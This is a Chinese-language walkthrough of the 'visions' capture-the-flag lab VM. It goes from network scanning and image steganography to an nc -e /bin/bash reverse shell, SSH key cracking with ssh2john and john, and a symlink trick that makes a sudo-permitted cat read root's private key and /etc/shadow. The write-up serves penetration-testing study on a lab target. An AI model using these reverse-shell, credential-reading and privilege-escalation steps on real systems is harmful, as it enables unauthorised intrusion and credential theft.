|   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->图片矫正选项-->对比度-56%，就能看到账户密码

>sophia/seemstobeimpossible

获得第一个flag
```C
emma@visions:/home/sophia$ su sophia
su sophia
Password: seemstobeimpossible

sophia@visions:~$ cat user.txt
cat user.txt
hmvicanseeforever

```

读取到ssh私钥
```c
sudo -l //(ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
sudo /usr/bin/cat /home/isabella/.invisible
```

将私钥复制出来编辑到id_rsa，这登录还需要密码，我们使用 **ssh2john** 将 **id_isa** 秘钥信息 转换 为 **john** 可以识别的hash，然后进行爆破,得到密码是invisible
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ vim id_rsa
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh2john id_rsa >> hash  
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

0g 0:00:05:24 0.06% (ETA: 2024-04-23 18:54) 0g/s 33.41p/s 33.41c/s 33.41C/s pink69..findingnemo
invisible        (id_rsa)   
```

```c
chmod 600 id_rsa
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo ssh -i id_rsa isabella@192.168.44.136  //invisible
```
#  软链接提权

## 这里 sudo 具有root 的权限，sophia 用户具有使用 Sudo 读取 /home/isabella/.invisible 的权限，而现在的 isabella 用户有权限修改 /home/isabella/.invisible。我们尝试创建一条软链接，将.invisiblla文件链接到root的私钥上

```C
isabella@visions:~$ cp .invisible .invisible.bak
isabella@visions:~$ rm -rf ./.invisible
isabella@visions:~$ ln -s /root/.ssh/id_rsa ./.invisible

sophia@visions:/home$ sudo /usr/bin/cat /home/isabella/.invisible
```

读取到root的私钥，获得第二个flag
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ vim root_rsa
                                                                             
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ chmod 600 root_rsa    
                                                                             
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh -i root_rsa root@192.168.44.136                     
Linux visions 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 17 13:10:34 2024
root@visions:~# id
uid=0(root) gid=0(root) groups=0(root)
root@visions:~# ls
flag.sh  root.txt
root@visions:~# cat root.txt 
hmvitspossible
```

## 方法二
hadow爆破
使用上面的方法，换个思路，读取root的shadow 文件，然后进行爆破
```C
isabella@visions:~$ ln -s /etc/shadow ./.invisible
```
这里太久了，了解思路即可。完全爆破需要很长时间。0.99%